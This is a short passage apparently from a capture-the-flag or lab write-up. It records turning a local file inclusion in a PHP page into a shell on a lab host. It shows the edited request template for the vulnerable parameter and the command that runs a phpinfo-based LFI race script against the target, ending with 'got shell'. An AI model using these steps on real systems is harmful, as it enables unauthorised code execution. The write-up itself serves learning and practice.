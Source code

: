 ```bash
[tmp_name] =&gt;
```

also need to change the lfi url, delete the `%00`

```bash
LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
```

run, got shell.

```bash
python2 phpinfolfi.py 10.129.29.186 80 100
```

![image-20221015001336291](./images/image-20221015001336291.png)



## LFI + rce

enum the common log path, no found.
